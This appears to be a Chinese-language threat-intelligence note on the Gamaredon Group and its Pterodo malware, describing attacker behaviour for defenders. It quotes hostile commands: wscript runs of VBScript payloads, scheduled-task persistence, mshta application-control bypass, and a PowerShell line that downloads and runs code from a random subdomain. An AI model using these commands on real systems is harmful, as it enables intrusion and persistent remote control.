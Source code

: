 # Gamaredon Group

## 特征

1. depended.exe负载会执行两个VBS脚本:

> "CSIDL_SYSTEM\wscript.exe" CSIDL_PROFILE\appdata\roaming\reflect.rar //e:VBScript //b

>	"CSIDL_SYSTEM\wscript.exe" CSIDL_PROFILE\appdata\local\temp\deep-thoughted. //e:VBScript //b

然后会创建计划任务来确保持久性:SCHTASKS /CREATE /sc minute /mo 10 /tn "deep-thoughted" /tr "wscript.exe " CSIDL_COMMON_PICTURES\deep-thoughted.ppt //e:VBScript //b" /F，该计划任务每10分钟运行一次.
当然，该组织也会使用MSHTA来绕过应用程序控制策略:"CSIDL_SYSTEM\cmd.exe" /c CSIDL_SYSTEM\mshta.exe http://域名/FILM.html /f id=[REDACTED].

2. 投递的Pterodo恶意软件活跃时将会通过其他的命令控制器下载脚本和工具，然后创建计划任务.

```bash
"CSIDL_SYSTEM\wscript.exe" CSIDL_PROFILE\appdata\local\temp\12382. //e:VBScript //b
"CSIDL_SYSTEM\cmd.exe" /c CSIDL_SYSTEM\mshta.exe http://域名/7-ZIP.html /f id=<?,?>
CSIDL_SYSTEM\mshta.exe http://域名/7-ZIP.html /f id=<?,?>
//MSHTA执行绕过
"CSIDL_SYSTEM\schtasks.exe" /CREATE /sc minute /mo 12 /tn "MediaConverter" /tr "wscript.exe " CSIDL_COMMON_MUSIC\mediatv.mov //e:VBScript //b " /F"
"CSIDL_SYSTEM\schtasks.exe" /CREATE /sc minute /mo 12 /tn "VideoHostName" /tr "wscript.exe " CSIDL_COMMON_VIDEO\videotv.m3u //e:VBScript //b " /F"
//每12分钟执行
```

3. 恶意软件经常以随机子域作为命令控制器.

```powershell
"powershell.exe" $tmp = $ (New-object net.webclient) .DownloadString('http://'+[System.Net.DNS]::GetHostAddresses([string]$(Get-Random)+'.域名')+'/get.php');Invoke-Expression $tmp
```
